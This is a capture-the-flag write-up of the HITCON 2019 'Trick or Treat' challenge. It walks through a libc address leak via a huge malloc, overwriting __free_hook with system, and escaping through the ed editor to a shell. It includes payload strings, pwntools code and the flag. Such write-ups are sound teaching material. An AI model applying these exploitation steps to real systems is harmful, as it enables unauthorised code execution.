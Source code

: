 # CTFhitcon2019

## Summary
We overwrite __free_hook__ with __system__. Then invoke __free__, which is now __system__, and pass in the argument "ed" to open the ed editor which allows us to get shell via !'/bin/sh'

## In depth write up

The disassembly of the file is as follows:

![Disassembly of the file](ida.png)

When running checksec we get these results:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0      
```

The program starts by asking for an input size to send to var7 = malloc(size). From now on I will refer to var7 as *mValue*
After sending the input size it prints out a "Magic" pointer value which points towards where the heap was allocated.

For example, mallocing 100 gives us a pointer to 0x55a29a156260
```
Size:100
Magic:0x55590e00f260
```
/proc/PID/maps
```
55590e00f000-55590e030000 rw-p 00000000 00:00 0                          [heap]
7f3893334000-7f389351b000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
In order for malloc to allocate a huge page it needs to be given a size of 0x1000000 (Decimal 16777216)
Doing this changes where the heap chunk is allocated and is placed near libc. When running the program twice allocating a huge page, we observe something peculiar with the proc/PID/maps output
Run 1:
```
Size:16777216
Magic:0x7f0aadd25010
```
/proc/PID/maps
```
5567221bc000-5567221dd000 rw-p 00000000 00:00 0                          [heap]
7f0aadd25000-7f0aaed26000 rw-p 00000000 00:00 0 
7f0aaed26000-7f0aaef0d000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is at 0x7f0aaed26000. Magic is at 0x7f0aadd25010. Difference is 0x1000FF0
Run 2:
```
Size:16777216
Magic:0x7f2aeafd4010
```
/proc/PID/maps
```
55f249f64000-55f249f85000 rw-p 00000000 00:00 0                          [heap]
7f2aeafd4000-7f2aebfd5000 rw-p 00000000 00:00 0 
7f2aebfd5000-7f2aec1bc000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is 0x7f2aebfd5000. Magic is at 0x7f2aeafd4010. Difference is 0x1000FF0

This means that every time we allocated a huge page with malloc magic will be a fixed distance from libc of 0x1000FF0.
Now that we know where libc starts we can leverage that to get the addresses of __free_hook__ and __system__ by using pwntools like so:
```
libc = ELF('libc.so.6')
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
```
After getting the Magic value we are able to assign all of the variables we will be using
```
libc_offset = 0x1000FF0
free_hook = 0x3ed8e8
system = 0x4f440
libcBase = magic+libc_offset
```

After setting up our environment by alloating a hugepage we are presented with the prompt `Offset & Value:`
From the disassembly we can see that it is expecting input in the format "%lx %lx" which means it is looking for long hex input. This means we don't need to format our input in a special way and can send addresses "as is".
What the program does with Offset and Value is it passes value to the offset of our malloced value. For example `mValue[offset] = value`
The program asks for Offset & Value twice.
The first Offset and Value we send is `(libc_offset+free_hook)/8` for the offset and `(libcBase+system)` for the value.
For the Offset, we add together __libc_offset__ and __free_hook__ and then divide the sum by 8. We do this because we are already starting at __Magic__ so we need to add __libc_offset__ to get to the __libcBase__. Then we add the offset of __free_hook__ so that we are pinpointing to the address of __free_hook__. We divide by 8 because *mValue* is a QUADWORD. This means that every *mValue* is equivalent to 8 bytes (64 bits). The Value is __libcBase__ plus the offset of __system__. This points towards the __system__ call. The payload is as follows `payload = "%x %x" % ((libc_offset+free_hook)/8,(libcBase+system))`
After sending this payload, we have succesfully overwritten the __free_hook__ call with the __system__ call.
For our second call we need to call __freee__ in order to invoke our newly placed __system__ call. We can achieve this by sending 1024 of an arbitrary character as the offset to invoke __free__. When __free__ is invoked the argument passed to it is the value that was supposed to be set at the offset of *mValue*. For example
```
mValue[1024] = value
                 v
          free(value)
```
With our altered code it now looks like this
```
mValue[1024] = value
                 v
        system(value)
```
So, we can send a value to system as an argument. However, this value can only consist of valid hex values such as 0123456789abcdef. By running the script hexcommands.py we get the output:
```
ed
dd
df
c99
cc
c89
bc
dc
```
The command of interest is the __ed__ command. This launches the [ed](https://linux.die.net/man/1/ed) text editor.
So, for our second Offset & Value input we use `payload = ('1'*1024+' '+'ed')`
Now that we are in the ed editor all we need to do is send the command `!'/bin/sh'`.
After that, we can CAT out the flag by doing `CAT /home/trick_or_treat/flag`
This gives us the flag `hitcon{T1is_i5_th3_c4ndy_for_yoU}`
